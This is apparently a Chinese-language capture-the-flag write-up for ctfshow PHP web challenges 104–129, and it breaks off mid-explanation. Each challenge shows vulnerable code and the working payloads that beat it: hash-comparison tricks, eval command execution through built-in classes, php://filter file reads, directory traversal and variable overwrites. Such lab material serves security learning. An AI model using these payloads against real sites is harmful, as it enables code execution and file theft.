    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2) && $v1!=$v2){
        echo $flag;
    }
}
```

104一样，但多了一个条件就是v1不能等于v2

解题:

令两个参数的sha1哈希值一样但不是同一个参数就可以了

paylaod

#法一
get  v2[]=1
post v1[]=2

#法二 sha1 碰撞#sha1加密后均为 0e 开头，弱比较会被字母截断成0
get v2=10932435112
post v1=aaroZmOk

其实跟常规的md5绕过差不多

## web107

```php
if(isset($_POST['v1'])){
    $v1 = $_POST['v1'];
    $v3 = $_GET['v3'];
       parse_str($v1,$v2);
       if($v2['flag']==md5($v3)){
           echo $flag;
       }

}
?>
```

### 相关函数

#### parse_str()

在 PHP 中，`parse_str()` 是一个用于解析查询字符串并将其转换为变量数组的函数

parse_str()函数的基本语法

```php
parse_str(string $string, array &$array = null): void
```

- **`$string`**：要解析的查询字符串。
- **`$array`**（可选）：如果提供，则解析后的变量会被存储在这个数组中。否则，解析后的变量会直接导入到当前的符号表（即可以直接使用变量名）。

解题:

这里需要让v2中flag等于v3的md5值，而v2来自于v1组成的数组，如果v1中没有flag，则v2数组flag的值为null，那我们如果给v3传入一个数组，md5后结果也为null

对本题而言

### 解法1：

我们只要满足v3的md5等于v2[flag]即可。可以传递给v3任意值，然后v1=flag=v3的md5值，具体传递的值根据v3确定，v3经过md5后弱等于v2，那么md5后0e开头即可让md5的结果为0，所以让v2的flag变量值为0。

payload:

GET传入v3=QNKCDZO

POST传入v1=flag=0

### 解法2：

我们传入v3[]=1，则md5($v3)就是null 这时候v1随便传,也可以满足`if($v2['flag']==md5($v3))`

## web108

```php
include("flag.php");
if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {
    die('error');
}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}
?>
```

### 相关函数

#### ereg函数

是PHP旧版本中用于正则表达式匹配的函数，跟preg_match函数作用是一样的,

#### strrev()函数

`strrev`是PHP内置的字符串函数，用于将字符串进行反转。它接受一个字符串作为参数，并返回反转后的结果。

解题

### 00截断绕过ereg函数

 ereg函数存在NULL截断漏洞，可以绕过正则过滤，使用%00截断。

payload:c=a%00778

## web109

```php
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];
    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }
}
?>
```

解题:

采用php的内置类进行解题

首先我们要了解到，这里的echo是把v1当成字符串进行输出，那可以想到当一个实例化对象被当作字符产输出的时候会触发什么方法，答案就是__string()魔术方法，那我们把带有这个方法的类列出来

CachingIterator::__toString()
DirectoryIterator::__toString
Error::__toString
Exception::__toString

根据这些类，我们可以通过触发tostring魔术方法进行命令执行

pyload:
?v1= CachingIterator&v2=system(ls)
?v1= DirectoryIterator&v2=system(ls)
?v1= Error&v2=system(ls)
?v1= Exception&v2=system(ls) 

查看目录后直接cat到flag就可以了

## web110

```php
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }
    eval("echo new $v1($v2());");
}
?>
```

看到这么多被过滤的字符也是瞬间昏头了哈哈哈，没关系，我们先用脚本把没被过滤的字符串输出出来

```php
<?php
for ($i=32;$i<127;$i++){
        if (!preg_match("/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/",chr($i))){
            echo chr($i)." ";
        }
}

?>
 #没被过滤的字符:< > A B C D E F G H I J K L M N O P Q R S T U V W X Y Z ] a b c d e f g h i j k l m n o p q r s t u v w x y z | } 
```

这里的话过滤了大部分字符，正常的手法都行不通了，那就试一下新方法

```
filesystemiterator 遍历文件类
getcwd()函数 获取当前工作目录 返回当前工作目录
```

### Filesystemiterator类遍历目录

`FilesystemIterator`类是PHP中用于遍历文件系统的一个迭代器类。它可以用于遍历指定目录下的文件和子目录。

### getcwd函数获取目录

`getcwd()`函数是PHP中的一个内置函数，用于获取当前工作目录的路径。

语法:

```php
string getcwd(void**)
```

具体用法:

```php
$currentDir = getcwd();
echo "当前工作目录是：$currentDir";
```

类`FilesystemIterator`可以用来遍历目录，需要一个路径参数
函数`getcwd`可以返回当前工作路径且不需要参数，由此可以构造payload
/?v1=FilesystemIterator&v2=getcwd

## web111

```php
function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
//将v2的地址传给v1
var_dump($$v1); 
//打印v1
}
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
            die("error v2");
    } 
    if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }
}
```

常规先看看过滤了哪些东西，这次能用的只有大小写字母和|和}符号了

解析代码

### eval("$$v1 = &$$v2;");

1. `$$v1`是一个变量变量，它的值将由`$v1`的值决定。例如，如果`$v1`的值为 `"x"`，那么`$$v1`就等同于 `$x`。
2. `&` 是引用操作符，用于创建一个变量的引用。
3. `$$v2`也是一个变量变量，它的值将由`$v2`的值决定。
4. `$$v1 = &$$v2;` 表示将`$$v2`的引用赋值给`$$v1`，即`$v1`成为`$v2`的引用。

因为我们并不知道flag在哪，所以我们可以用PHP的$GLOBALS超全局变量

### $GLOBALS超全局变量

`$GLOBALS` 是一个在 PHP 中预定义的超全局变量，它是一个包含全局作用域中所有全局变量的关联数组。

`$GLOBALS` 数组的键是全局变量的名称，值是对应全局变量的引用。通过 `$GLOBALS` 数组，可以在任何作用域中访问和操作全局变量，而不需要使用 `global` 关键字。

举个例子:

```php
$x = 10;
$y = 20;

function sum() {
    $result = $GLOBALS['x'] + $GLOBALS['y'];
    return $result;
}

echo sum();  // 输出 30

```

我们定义了两个全局变量 `$x` 和 `$y`，然后在 `sum()` 函数中使用 `$GLOBALS` 数组访问这两个全局变量，实现了对它们的求和操作。

构造payload:

```php
?v1=ctfshow&v2=GLOBALS
```



注意 PHP 的函数具有词法作用域

在函数内部无法调用外部的变量，除非进行传参。这道题无非注意以下几点：

1. 我们最终要得到 $flag 的值，就需要 var_dump($$v1) 中的 $v1 为 flag，即 $v2 要为 flag，这样 $$v2 就为 $flag，&$$v2 就为 $flag 对应的值
2. URL 传参时 $v2 不能直接传为 flag，否则 $flag 会因“函数内部无法调用外部变量”的限制而导致其返回 null
3. 要想跨过词法作用域的限制，我们可以用 GLOBALS 常量数组，其中包含了 $flag 键值对，就可以将 $flag 的值赋给 $$v1

## web112

```php
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

**要求**：file 不能是文件，且不能使用 http、https、data 伪协议，不能使用 input 参数，不能使用 rot13、base64、string 过滤器

### is_file()函数

```
is_file()` 函数用于判断给定的路径是否是一个文件，如果是则返回 `true`，否则返回 `false
```

基础语法:

```php
bool is_file ( string $filename )
```

参数 `$filename` 是要检查的文件路径。需要注意的是，这个函数只能用于检查文件，不能用于检查文件夹。

#### 要点:当is_file的参数为伪协议时，返回值为false

解题:

### 解法一:直接用包装器伪协议

#### filter包装器

`filter` 包装器是 PHP 中用于在数据流中应用过滤器的一种特殊包装器。它允许你通过指定过滤器来对数据进行过滤、修改或转换。

使用 `filter` 包装器，你可以对输入和输出进行过滤操作，包括数据验证、数据清理、编码转换等。它提供了一种方便的方式来处理各种数据流，如文件、网络连接、字符串等。

基础用法：

```php
filter://data
```

`filter` 是要应用的过滤器的名称，`data` 是要过滤的数据。

这里限制了很多伪协议，但是我们可以发现php://filter伪协议还是可以用的

payload:

?file=php://filter/resource=flag.php

### (重)解法二:用过滤器进行转换

因为这题限制了字符，所以我们选择限制字符以外的过滤器即可

- #### php://filter/read=convert.quoted-printable-encode/resource=flag.php

`convert.quoted-printable-encode` 是过滤器，用于将文件内容转换为 quoted-printable 编码

- #### compress.zlib://flag.php

`compress.zlib://flag.php` 是另一种 PHP 包装器（wrapper），用于读取经过 zlib 压缩的文件内容

- #### php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php

`convert.iconv.UCS-2LE.UCS-2BE` 是一个过滤器，用于将 `flag.php` 文件内容从 UCS-2LE 编码转换为 UCS-2BE 编码。

- #### php://filter/read=convert.iconv.utf-8.utf-16le/resource=flag.php

`convert.iconv.utf-8.utf-16le` 是一个 `php://filter` 包装器中的过滤器，用于将 UTF-8 编码的文本转换为 UTF-16LE 编码。

- #### php://filter/read=convert.quoted-printable-encode/resource=flag.php

`convert.quoted-printable-encode` 是一个内置的 PHP 过滤器，用于将数据转换为 Quoted-Printable 编码

## web113

```php
function filter($file){
    if(preg_match('/filter|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

好吧包装器filter也被过滤啦，可是我们上道题学过一个不用包装器的读取flag的方法，直接用就行了

但是我们这里要学一个新姿势，利用require_once绕过不能重复包含文件的限制

### 知识点:require_once 绕过不能重复包含文件的限制(目录溢出)

https://www.anquanke.com/post/id/213235?from=timeline

在linux中/proc/self/root是指向根目录的，也就是如果在命令行中输入ls /proc/self/root，其实显示的内容是根目录下的内容。多次重复后绕过is_file。大佬的解释是:超过20次软连接后就可以绕过is_file

这里使用的是PHP最新版的小Trick，require_once包含的软链接层数较多时once 的 hash 匹配会直接失效造成重复包含（目录溢出）
**payload2**：目录溢出导致is_file认为这不是一个文件。

```php
file=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

## web114

```php
<?php
function filter($file){
    if(preg_match('/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
echo "师傅们居然tql都是非预期 哼！";
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

好啊好啊，这次把上一题的两个方法全部禁用了

但是细看可以发现我们的filter被放出来了，那就直接用上上题的方法做就行了，但是不能用过滤器convert，没关系我们可以不用过滤器直接用filter读取文件

payload:

```php
?file=php://filter/resource=flag.php
```

## web115

```php
function filter($num){
    $num=str_replace("0x","1",$num);
    $num=str_replace("0","1",$num);
    $num=str_replace(".","1",$num);
    $num=str_replace("e","1",$num);
    $num=str_replace("+","1",$num);
    return $num;
}
$num=$_GET['num'];
if(is_numeric($num) and $num!=='36' and trim($num)!=='36' and filter($num)=='36'){
    if($num=='36'){
        echo $flag;
    }else{
        echo "hacker!!";
    }
}else{
    echo "hacker!!!";
} hacker!!!
```

出现新函数了，先了解一下新函数

### str_replace()函数

`str_replace()` 是 PHP 中的一个字符串替换函数，用于在一个字符串中将指定的子字符串替换为另一个子字符串

基本语法:

```php
str_replace($search, $replace, $subject)

```

参数说明：

- `$search`：要查找和替换的子字符串，可以是一个字符串或字符串数组。
- `$replace`：用于替换的字符串或字符串数组，可以与 `$search` 长度相同，也可以是一个字符串。
- `$subject`：要进行替换操作的字符串或字符串数组。

### trim()函数

`trim()` 函数是 PHP 中用于去除字符串首尾空白字符的函数

基础语法

```php
trim($str, $charlist)
```

参数说明：

- `$str`：要处理的字符串。

- `$charlist`（可选）：指定要删除的字符列表。如果未指定该参数，trim() 将去除这些字符：

  " " (ASCII 32 (0x20))，普通空格符。
  "\t" (ASCII 9 (0x09))，制表符。
  "\n" (ASCII 10 (0x0A))，换行符。
  "\r" (ASCII 13 (0x0D))，回车符。
  "\0" (ASCII 0 (0x00))，空字节符。（空字符）  %0c也相当于空字符
  "\x0B" (ASCII 11 (0x0B))，垂直制表符

`trim()` 函数执行以下操作：

- 删除 `$str` 字符串开头和结尾的空白字符或指定的字符列表。
- 返回处理后的字符串。

返回来分析代码

第一层if语句让num进行一系列过滤后不能为36，第二层if语句又让num必须为36才能拿到flag，第一层过滤了八进制，十六进制和科学计数法，小数点和+号，可以说我能想到的能绕过验证的方法都被pass掉了，应该又是学习新姿势的题目了

直接看wp进行学习:

分析:

is_numeric($num)要求num识别为数字或者数字字符串，但num不能强等于“36“

trim($num)!=='36'要求不能强等于”36“,然后filter之后要弱等于36

$num=='36'但最后要求弱等于"36"

所以这道题的入口应该是在于如何绕过is_numeric()和trim()函数

我们可以知道，is_numeric()函数只允许数字或者数字字符串，但数字和数字字符串之间有空格也是可以的

做个测试:

```php
<?php
for ($i=0; $i <128 ; $i++) {
	$x=chr($i).'36';
	if(is_numeric($x)===true){
		echo urlencode(chr($i))."\n";
	}
}
 
//输出%09 %0A %0B %0C %0D + %2B - . 0 1 2 3 4 5 6 7 8 9
```

通过遍历ascii码找到在数字前加上字符后能通过is_numeric()函数验证的字符

那我们再测试一下is_numeric()和trim()函数(或者参考trim去除的字符后看看剩下哪些字符是可以同时满足两个函数验证的)

```php
<?php
for($i=0;$i<=128;$i++) {
	$x=chr($i).'36';
	if(trim($x)!=='36' &&is_numeric($x)){
		echo urlencode(chr($i))."\n";
	}
}
 
//输出结果%0C %2B - . 0 1 2 3 4 5 6 7 8 9
```

%0c是换页符\f

所以构造payload:

?num=%0c36

### 注:对于绕过，如果不知道怎么绕过就拿ASCII码把所有字符跑一遍

# 突破函数禁用

## web123

```php
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```

#### 关于$_SERVER['argv']

`$_SERVER` 是 PHP 中的一个超全局变量，用于获取服务器和执行环境的相关信息

假设你有一个名为 `script.php` 的 PHP 脚本，并且你在命令行中执行以下命令：

```php
php script.php arg1 arg2 arg3
```

那么在 `script.php` 中，你可以使用 `$a = $_SERVER['argv'];` 来获取命令行参数的值：

```php
$a = $_SERVER['argv'];
print_r($a);
```

上述代码将输出：

```php
Array
(
    [0] => script.php
    [1] => arg1
    [2] => arg2
    [3] => arg3
)
```

不过这个结果是在命令行下的结果，正常的网页模式下需要确保php.ini开启register_argc_argv配置项，设置register_argc_argv = On(默认是Off)才会有效果

解题:

思考

- 我们需要传入的参数有CTF_SHOW,CTF_SHOW.COM,不能传入fl0g，但题目要求fl0g的值强等于flag_give_me才能拿到flag
- 对$c参数进行了过滤，并限制了c的值不能大于18
- 题目中有危险函数eval，将c传入的值当成php代码执行

### 解法一:通过eval输出flag

先说payload再解释:

1.POST:CTF_SHOW=1&CTF[SHOW.COM=1&fun=extract($_POST)&fl0g=flag_give_me

2.POST:CTF_SHOW=1&CTF[SHOW.COM=1&fun=echo $flag

3.POST:CTF_SHOW=&CTF[SHOW.COM=&fun=var_dump($GLOBALS)   //题目出不来，本地测试可以

前面对于CTF_SHOW的传参就不说了，只是单纯为了满足条件，和第二个参数CTF_SHOW.COM一样，但这里可以发现为什么我们传入的参数不是CTF_SHOW.COM而是CTF[SHOW.COM，这就涉及到PHP的命名规则了

#### PHP命名规则

变量名的命名规则是

- 变量以 $ 符号开头，其后是变量的名称。
- 变量名称必须以字母或下划线开头。
- 变量名称不能以数字开头。
- 变量名称只能包含字母数字字符和下划线（A-z、0-9 以及 _）。

我们需要明白一下PHP的字符串解析

#### PHP的字符串解析特性bypass

PHP将查询字符串（在URL或正文中）转换为内部$_GET或的关联数组$_POST时，查询字符串在解析的过程中会将某些字符删除或用下划线代替

**在 PHP 8 之前 的版本中，当参数名中含有 .（点号）或者`[`(下划线)时，会被自动转为 `_`（下划线）。如果`[`出现在参数中使得错误转换导致接下来如果该参数名中还有非法字符并不会继续转换成下划线`_`，但是如果参数最后出现了`]`,那么其中的非法字符还是会被正常解析(不会转换)，因为被当成了数组**

### 解法二:通过eval赋值给fl0g拿到flag

payload1:

```php
GET:?$fl0g=flag_give_me
POST:CTF_SHOW=&CTF[SHOW.COM=&fun=assert($a[0])
```

`$_SERVER['QUERY_STRING']` 是 PHP 中一个包含当前请求 URL 查询字符串的超全局变量。查询字符串是 URL 中问号（`?`）后面的部分，通常用于传递参数给服务器。当我们通过get传入fl0g的时候，$a[0]= $_SERVER['QUERY_STRING']=($fl0g=flag_give_me);assert 函数用于执行字符串中的 PHP 代码，实现变量覆盖。

payload2：

```php
get: a=1+fl0g=flag_give_me
post: CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1])
```

知识点:

利用parse_str()将字符串解析成多个变量+隔断argv

本地测试:

```php
<?php
var_dump($_SERVER['argv']);
```



可以用加号+进行分隔，从而使得$_SERVER['argv']这个array不仅仅只有[0]。

大佬的总结说：

CLI模式下直接把 request info ⾥⾯的argv值复制到arr数组中去

继续判断query string是否为空，

如果不为空把通过+符号分割的字符串转换成php内部的zend_string，

然后再把这个zend_string复制到 arr 数组中去。

这样就可以通过加号+分割argv成多个部分，正如我们上面测试的结果

简单来说就是通过+分割argv的结果，使得我们可以利用数组的调用去进行传参绕过验证

## web125

```php
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print/i", $c)&&$c<=16){
         eval("$c".";");
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```

真狠啊把一堆关键词都过滤了

找找看哪个输出函数是可以用的上的

payload:

`POST:CTF_SHOW=1&CTF[SHOW.COM=1&fun=extract($_POST)&fl0g=flag_give_me`

### extract($array)用法

`extract($_POST)` 是将 `$_POST` 超全局变量中的键值对解压缩为对应的变量和值。

`extract($array)`： 从数组中将变量导入到当前的符号表。可以实现变量覆盖。

或者可以用highlight_file

`GET:?1=flag.php `
`POST:CTF_SHOW=&CTF[SHOW.COM=&fun=highlight_file($_GET[1])`

或者可以用上一题第二种解法

## web126

```php
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print|g|i|f|c|o|d/i", $c) && strlen($c)<=16){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
```

解法和前面的是一样的，没什么大变化

## web127

### #绕过$_SERVER['QUERY_STRING']

```php
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];
//特殊字符检测
function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}
if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
}
if($ctf_show==='ilove36d'){
    echo $flag;
}
```

这里就是得绕过$url = $_SERVER['QUERY_STRING'];

payload1:

因为$_SERVER['QUERY_STRING']是用于获取查询语句(即?号之后的参数)的

`$_SERVER['QUERY_STRING'];`获取的查询语句是服务端还没url解码的，所以url编码绕过即可`

```html
?ctf%5fshow=ilove36d
```

payload2

题目检查的是query_string而不是$_GET
因此可以利用不合法的变量名，让其自动替换成`_

```
GET:?ctf%20show=ilove36d
```

我们来看看哪些不合法的字符会被解析成下划线

### 不合法变量名字符的解析

在php中，解析字符串变量名的时候，会将一些非法字符转化成下划线，因此我们可以借助这个绕过url获取查询语句的验证

能够被解析成_的ascii为，+(空格) . %5B([) _

## web128

### #无数字无字母函数

```php
$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}
function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
} NULL
```

### 相关函数

#### call_user_func()函数

在 PHP 中，`call_user_func()` 函数用于调用一个回调函数。这个函数非常灵活，可以用来调用普通的用户定义函数、静态方法、对象方法等

基础语法

```php
mixed call_user_func(callable $callback, mixed ...$parameters)
```

参数说明

- **$callback**: 要调用的函数名或方法（可以是字符串或数组）。
- **$parameters**: 可变参数，可以传入给回调函数的参数。

返回值

```
call_user_func()` 将返回被调用函数的返回值。如果要调用的函数没有返回值，则返回 `NULL
```

回到题目

这里对f1进行了字母数字的过滤

对于call_user_func()函数的嵌套，我们可以看到，如果f1是一个可执行的函数，那么这个call_user_func()函数会执行f1函数并传入f2作为参数，但因为外层还有一个call_user_func()函数，所以内部的返回值必须是另一个可调用的函数

搜查资料可以找到一个函数_()，即 gettext()的拓展函数，但是要求php扩展目录下有php_gettext.dll这个文件

```php
$domain = 'test';
bindtextdomain($domain, "locale/");//设置某个域的mo文件路径
textdomain($domain);//设置gettext()函数从哪个域去找mo文件
echo _("Hi,phper!");//_()是gettext()函数的简写形式
```

`_()` 函数在 PHP 中通常用于国际化和本地化的字符串翻译

所以f1设为_就可以绕过验证也能将内置函数的返回值输出出来，所以f2设置为另一个可以读取flag的函数就可以了

这里我们将f2设置为get_defined_vars()函数

### get_defined_vars()函数

`get_defined_vars()` 是 PHP 的一个内置函数，它用于返回当前作用域中所有已定义变量的关联数组,这个函数非常有用，特别是在调试过程中，因为它可以让开发者查看当前作用域内的所有变量及其值。

基础用法

```php
array get_defined_vars(void)
```

返回值

`get_defined_vars()` 返回一个关联数组，数组的键是变量名，值是对应的变量值。

所以最终的payload是

```
Payload：?f1=_&f2=get_defined_vars
```

## web129

```php
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
}
```

### stripos()函数

`stripos()` 是 PHP 的一个内置函数，用于在一个字符串中查找另一个字符串的首次出现位置，比较时不区分大小写

基础语法

```php
int stripos(string $haystack, string $needle, int $offset = 0)
```

参数

**$haystack**: 要搜索的目标字符串。

**$needle**: 要查找的子字符串。

**$offset**: 可选参数，指定从哪个位置开始搜索。默认值是 0。

返回值

- 如果找到 `$needle`，则返回 `$needle` 在 `$haystack` 中首次出现的位置（以 0 为起始索引）。
- 如果未找到，返回 `FALSE`。

### readfile()函数

`readfile()` 是 PHP 的一个内置函数，用于读取文件并将其内容发送到输出缓冲区

基础语法

```php
int readfile(string $filename, bool $use_include_path = false, resource $context = null)
```

参数

- **$filename**: 要读取的文件的路径（可以是相对路径或绝对路径）。
- **$use_include_path**: 可选参数，表示是否在包括路径中查找文件。默认为 `false`。
- **$context**: 可选参数，指定一个上下文资源，用于修改文件的读取行为（例如，设置流选项）。

返回值

- 返回读取的字节数，或者在出错时返回 `false`。

解题

stripos($f, 'ctfshow')>0--用于检查字符串 `$f` 中是否包含子字符串 `'ctfshow'`，并且这个子字符串第一次出现的位置是否大于 0

因为readfile()函数是输出一个文件，所以我们的f中应该包含一个文件目录

但是因为我们不知道flag在哪层目录里面，所以我们试一下目录穿越

### 目录穿越

**定义与原理**

- 定义：目录穿越是指攻击者通过构造特定的URL或请求，绕过Web应用程序的安全机制，访问或执行服务器上的任意文件或命令。
- 原理：在文件系统路径中，.. 表示上一级目录。攻击者可以利用这一点，通过构造包含多个 ../ 的URL或请求，逐步向上移动目录树，直到能够访问到服务器上的敏感文件或执行受限命令。

**常见攻击手法**

- URL参数：攻击者可以在URL中插入 ../ 序列，尝试访问上级目录中的文件。
- 文件绝对路径：在某些情况下，攻击者可能会尝试使用文件的绝对路径来直接访问目标文件。
- 绕过手段：为了绕过Web应用程序的安全检查，攻击者可能会使用URL编码、单次替换（双写）、截断绕过等技巧来构造恶意请求。

所以我们构造payload

```
?f=/ctfshow/../../../../var/www/html/flag.php
```

其中的../../../这是深层目录，根据需要尝试，另外目录是根据之前的题目猜测得到，var/www/html/index.php也有回显

或者也可以直接用包装器进行读取flag

Payload：?f=php://filter/ctfshow/resource=flag.php，只要包含了ctfshow且出现位置不为0都可以通过验证

我一开始很疑惑，这里面的ctfshow不会影响这个payload的实现吗，然后我搜寻了一下得到了较为合理的解释

在 PHP 中，`php://filter` 是一个特殊的流包装器，它用于对数据进行过滤或处理。你提到的 payload `?f=php://filter/ctfshow/resource=flag.php` 使用了 `php://filter` 来访问名为 `flag.php` 的文件，并且遭遇到的 `stripos($f, 'ctfshow') > 0` 检查实际上不会影响对 `flag.php` 读取的执行。

### 要点:PHP对无法使用的filter过滤器只会抛出warning而不是error

ctfshow过滤器解析

1. **流包装器的工作原理**：

